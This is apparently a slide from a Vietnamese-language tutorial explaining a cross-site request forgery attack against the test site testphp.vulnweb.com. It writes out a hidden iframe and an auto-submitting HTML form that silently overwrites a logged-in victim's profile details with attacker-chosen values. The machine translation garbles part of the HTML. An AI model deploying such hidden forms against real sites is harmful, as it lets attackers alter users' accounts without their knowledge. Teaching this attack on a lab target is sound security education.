

# Trang web của kẻ tấn công là một trang web thư viện ảnh trực tuyến bình thường. Tuy nhiên, nó có chứa một biểu mẫu ẩn trong đó sẽ tự động gửi và cập nhật hồ sơ cá nhân của nạn nhân trên testphp.vulnweb.com. Các ẩn iframe tồn tại trong trang myimages.php. <iframe src="http://www.vulnweb.com/updateif.php" style="display:none"> </ iframe> Điều này tải một trang của trang web của kẻ tấn công. Trang web có chứa mã trang userinfo.php thực tế đó tự động gửi và cập nhật userinfo.php cụ thể của nạn nhân hiện tại. Điều này tự động xảy ra mỗi khi người dùng truy cập trang web này. Trang updateif.php chứa mã hình thức thực tế mà tự động gửi thông tin mong muốn những kẻ tấn công đã thiết lập. <body onload="document.getElementById('f').submit()">  <form id = "f" action = "http://testphp.vulnweb.com/userinfo.php" method = "post" name = "Form1">  <input name="urname" value="attacker'svalue">  <input name="ucc" value=" attacker'svalue">  <input name="uemail" value=" attacker'svalue">  < tên đầu vào = "uphone" giá trị = "attacker'svalue">  <textarea name="uaddress" wrap="soft"> <attacker'svalue> </ textarea>  <input name="update" value="update">  < / form>  </ body> Hình thức này lấy thông tin giá trị từ một tập tin văn bản. Khi updateif.php được gọi là, các thông tin (thiết lập trước đó) bởi những kẻ tấn công được lấy ra và đặt trong " giá trị "lĩnh vực. Sau đó, hình thức là tự động gửi và trang mục tiêu được nạp. Các hoạt động này được thực hiện bên trong một khung nội tuyến ẩn, do đó nạn nhân sẽ không thấy các trang web mục tiêu.